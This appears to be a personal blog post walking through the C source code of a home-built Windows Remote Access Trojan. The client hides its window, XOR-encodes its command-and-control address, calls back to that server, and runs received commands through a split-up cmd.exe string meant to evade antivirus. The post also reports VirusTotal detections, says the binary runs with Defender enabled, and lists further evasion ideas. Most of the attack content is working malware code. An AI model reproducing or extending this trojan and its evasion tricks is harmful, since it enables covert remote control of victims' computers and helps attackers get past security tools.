



In this post, I'm gonna walk you through how I built my own custom RAT (Remote Access Trojan). I'll show you how many detections it got on VirusTotal, and give you a quick PoC so you can see it in action. After checking out the code, I'll also throw in a few ideas on how to tweak it to dodge more defenses.

## Initial Thoguhts and Goals

First of all, let's define a RAT as a Remote Access Trojan. I want to focus on that specific combination of words, because there are different variations of RATs out there. I leaned more into the Remote Access side of things rather than focusing on the Trojan/infection part.

Many RATs are combined with other types of malware, because on their own, they don’t usually do much beyond connecting to a server. Some are bundled with other components like worms. Others are dropped onto the system via droppers or loaders, among other methods.

I'm not building a RAT with auto-persistence because there are better ways to handle that. Later on, I’ll write a separate post about worms and how we can combine them with a RAT — that’s when things start getting really interesting (and dangerous).

### Goals

My main idea was to build my own RAT, because honestly, I see malware development as a true form of art — one that very few people really understand.

Since I didn’t want to overwhelm myself with too many details or features, I focused on something simple: a server (also known as a C2) that can remotely control a user’s machine through an executable.

This is actually a pretty complex problem, because let’s be real — we have to assume that someone on the internet will download and run our file (which NEVER happens, right? Nobody has EVER downloaded a sketchy file from the internet...).
But for now, let’s focus on the code itself, not the social engineering behind getting someone to run it.

## Under the Hood

Alright, time to pop the hood and see how this RAT actually works.

I'm going to walk through the code piece by piece, explaining what each part does, why it's there, and how it fits into the bigger picture. The goal here isn't to write the most complex or stealthy malware ever (yet), but to lay down a solid foundation — something that actually connects, listens, and lets you run commands remotely.

Let’s start from the beginning: the core structure of the client — the part that runs on the victim's machine.

### Code Review

First things first, the includes:
- `winsock2.h` is needed for all the things related to sockets.
- `windows.h` gives us access to the Windows API.
- `stdio.h` for basic input/output, I mostly used it while debugging in the beginning, and honestly, it's probably optional at this point.

```c
#include <winsock2.h>
#include <windows.h>
#include <stdio.h>
```

We define two global variables and a linker directive:
- We specify `ws2_32.lib` for include the *Winsock library*, which is used for all the networking stuff.
- Global variables
	- `K0` is the XOR key
	- `BUFFER_SIZE` defines the maximum number of bytes to read in each loop

```c
#pragma comment(lib, "ws2_32.lib")

#define K0 0xAA // xor
#define BUFFER_SIZE 4096
```

#### `main()`: Entry point

The next one is the `main` function. 

We call a pre-defined function `FreeConsole()` to disable the console window — this is mostly used to keep things quiet and not show any terminal when the program runs.

The other functions (`notWindowAllowed`and `firstConnection()`) will be explained later on.

```c
int main() {
    FreeConsole();
    notWindowAllowed();
    firstConnection();
    return 0;
}
```

#### `notWindowAllowed()`: Hide the console window

This code is a simple trick to keep the console window hidden during execution.

By using the function `GetConsoleWindow()`, we obtain the handle of the window console, and then we hide it using `showWindow()` with the `SW_HIDE` flag.

```c
HWND hwnd = GetConsoleWindow();
ShowWindow(hwnd, SW_HIDE);
```

#### `firstConnection()`: Initial setup for the network connection

This part of the code prepares everthing needed to start talking to the C2 server:
- `WSADATA wsa`: Used to initialize the Winsock library
- `SOCKET sock`: This is our actual socket used for the connection
- `struct sockaddr_in server`: Holds the information about the server we are going to connect to
- `char recvBuffer[BUFFER_SIZE]`: A buffer to store the data we are receiving from the server
- `int recvSize`: Stores the number of bytes received in each message

```c
WSADATA wsa;
SOCKET sock;
struct sockaddr_in server;
char recvBuffer[BUFFER_SIZE];
int recvSize;
```

The first thing we do in this function is initialize the Winsock library by calling the `WSAStartup()` with the version 2.2. This step is required before we can use any socket function. Then, we can create a socket using `socket()` with the appropriate parameters to set up the TCP socket over IPv4.

```c
WSAStartup(MAKEWORD(2, 2), &wsa);
sock = socket(AF_INET, SOCK_STREAM, 0);
```

In this part, we use the XOR key we defined earlier as a simple trick to bypass some static analysis. Some AV engines, like Windows Defender, perform static analysis before a file is even run. That means certain strings—like IP addresses or suspicious commands—can get flagged just for existing in the binary. By XOR-encoding the C2 address, we make it harder for those simple scans to detect it, since the plain text is no longer directly present in the file.

```c
// ip c2 ---> 192.168.1.90
unsigned char address_host[] = { 0x9B^K0, 0x93^K0, 0x98^K0, 0x84^K0, 0x9B^K0, 0x9C^K0, 0x92^K0, 0x84^K0, 0x9B^K0, 0x84^K0, 0x93^K0, 0x9A^K0 };
int port_host = 4444; // port c2
```

After defining the IP and port, we set up the `server` struct with the connection info. Before using the IP, we decode the `address_host` array by applying XOR at runtime to get the original string. Then, we use `inet_addr()` to convert that IP string into a proper address format. The address family is set to `AF_INET` (since we are using IPv4), and the port is converted to network byte order using `htons()`.

```c
server.sin_addr.s_addr = inet_addr(address_host);
server.sin_family = AF_INET;
server.sin_port = htons(port_host);
```

Now we enter a loop that runs every 5 seconds, trying to connect to the IP and port we set earlier. As long as the connection fails, we wait and try again. Once the connection is successful, the loop stops and we move on.

```c
while (connect(sock, (struct sockaddr*)&server, sizeof(server)) != 0) {
	Sleep(5000);
}
```

At this point, we enter an infinite loop. In each iteration, we try to receive a buffer from the C2 server and store both the data and the number of bytes received. If the number of received bytes is 0 or less, it means the connection has been closed or an error occurred, so we break the loop. Otherwise, if we receive any valid data, we append a `\0` (null terminator) to the end of the string and pass the buffer to the sendPresent() function for further processing.

```c
while (1) {
	memset(recvBuffer, 0, BUFFER_SIZE);
	recvSize = recv(sock, recvBuffer, BUFFER_SIZE - 1, 0);
	if (recvSize <= 0) break;
	
	recvBuffer[recvSize] = '\0';
	sendPresent(recvBuffer, sock);
}
```

Finally, after the loop finishes, we clean up by closing the socket and cleaning up the Winsock library.

```c
closesocket(sock);
WSACleanup();
```

#### `sendPresent()`: Command Execution and Response

This function starts by setting up a `SECURITY_ATTRIBUTES` structure. We use this mainly to allow handle inheritance, which is neede when we create a new process and want to redirect its output (like a pipe). Some of the attributes are:
- `nLength` sets the size of the structure
- `lpSecurityDecriptor` is set to `NULL` for default security
- `bInheritHandle` is set to `TRUE` so child process can inherit the pipe handles

```c
SECURITY_ATTRIBUTES sa;

sa.nLength = sizeof(sa);
sa.lpSecurityDescriptor = NULL;
sa.bInheritHandle = TRUE;
```

Next, we create an anonymous pipe using `CreatePipe()` which gives us two handles:
- `hRead` for reading
- `hWrite` for writting

Right after that, we call `SetHandleInformation()` on the read end to disable inheritance for it (we only want the child process to inherit the write end, not both). If we let it inherit the read end too, things can get messy.

```c
HANDLE hRead, hWrite;
CreatePipe(&hRead, &hWrite, &sa, 0);
SetHandleInformation(hRead, HANDLE_FLAG_INHERIT, 0);
```

Now it's time to set up the `STARTUPINFOA` struct (this is where we configure how the new process will behave when it starts).

We zero it out with `ZeroMemory()` (just to be safe), set the size, and then activate a flag called `STARTF_USESTDHANDLES`. That tells Windows: "hey, I'm gonna pass in some custom handles for input/output."

We don't care about `stdin` here, so we leave `hStdInput` as `NULL`. But for `stdout` and `stderr`, we point them both to hWrite. The write-end of the pipe we created earlier. That way, any output from the command (even errors) will get sent into the pipe, ready for us to catch and send back.

```c
STARTUPINFOA si;
PROCESS_INFORMATION pi;
ZeroMemory(&si, sizeof(si));
si.cb = sizeof(si);
si.dwFlags |= STARTF_USESTDHANDLES; //equals as si.dwFlags = si.dwFlags | STARTF_USESTDHANDLES
si.hStdInput = NULL;
si.hStdOutput = hWrite;
si.hStdError = hWrite;
```

In this part, we take it a step further with a custom evasion trick. Just like we did with the IP address, we split the command up into smaller chunks to avoid having a clear text command like `cmd.exe /c %s 2>&1`, which might get flagged by some antivirus tools.

By declaring the command in several parts throughout the code, we add an extra layer of obfuscation to make it harder for static analysis tools to spot what we are actually doing.

After that, we simply combine all the parts together using `snprintf()` to form the full command we want to execute. Here's how it's done:

```c
char part3[] = "cm";
char part4[] = "d.e";
char part1[] = "xe";
char part2[] = " /c ";
char part6[] = "&1";
char part5[] = " 2>";

// 3 - 4 - 1 - 2 - command - 5 - 6
char cmdLine[BUFFER_SIZE + 32];
snprintf(cmdLine, sizeof(cmdLine), "%s%s%s%s%s%s%s", part3, part4, part1, part2, command, part5, part6);
```

Now we create the process with `CreateProcessA()` with the command we just build. We also use `CREATE_NO_WINDOW` to ensure nothing is shown to the user.

```c
BOOL success = CreateProcessA(NULL, cmdLine, NULL, NULL, TRUE,CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
```

If the process creation is successful, we close the write handle (`hWrite`) since we only need to read from the pipe. Then, we enter a loop where we continuously read the output from the pipe and send it over the socket. Once all the data is transferred, we close the necessary handles.

If the process creation fails, we simply send an error message through the socket.

```c
if (success) {
	CloseHandle(hWrite); // Only read from here

	char buffer[BUFFER_SIZE];
	DWORD bytesRead;
	
	while (ReadFile(hRead, buffer, BUFFER_SIZE - 1, &bytesRead, NULL) && bytesRead > 0) {
		buffer[bytesRead] = '\0';
		send(sock, buffer, bytesRead, 0);
	}

	CloseHandle(hRead);
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
} else {
	char* errorMsg = "ERROR.\n";
	send(sock, errorMsg, strlen(errorMsg), 0);
}
```

Finally, we send an "end marker" to the C2 server. Just like we did with the IP address, we encrypt this marker using XOR to make it harder for static analysis tools to detect. The encrypted data is then sent though the socket.

```c
// End mark ---> "<END>"
unsigned char encrypted_end[] = { 0x96 ^ K0, 0xEF ^ K0, 0xE4 ^ K0, 0xEE ^ K0, 0x94 ^ K0};

send(sock, (const char*)encrypted_end, 5, 0);
```

## Virustotal

The amount of detections in Virustotal are the following:



HASH: `bc22040897c42dd042a3bd50ed62f77d7c45d3c6018a93077eac1cd48d2c7f9c`

This executable is flagged as a trojan, with the family label Cobalt Strike. At first, I was a bit worried because I thought it wouldn't be able to run on any machine with Windows Defender enabled without getting caught. But after testing, I found that it runs just fine (even with the antivirus turned on).

IMPORTANT NOTE: Occasionally, I do get a detection from SmartScreen, a feature in Windows Defender that helps block potentially malicious programs. I haven't figured out a consistent pattern for when it triggers and when it doesn't.

Anyway, the following screenshots show how the information is displayed on the C2 server side. When the user runs the executable, nothing visible happens on their end—but the server sees this:



And how does the information exchange happen between the server and the client:



	This is the default output from a clean virtual machine used for malware testing.

## Improvements and other Considerations

Some improvements I had in mind before writing this post include:
- Stronger encryption for "sensitive" strings (like cmd.exe, the C2 IP address, etc.)
- Resolving key API functions at runtime (e.g., CreateProcessA())
- Implementing sandbox evasion techniques
- Heavier code obfuscation
- Adding encryption for data sent between client and server

## Final Thoughts

Even though it was flagged by VirusTotal, this really made me want to keep experimenting with these kinds of things — and most importantly, to keep getting more creative with what I build.

To be honest, the fact that this malware —if we can even call it that— was labeled under the _Cobalt Strike_ family has been a huge motivation for me to keep learning and practicing in this field.
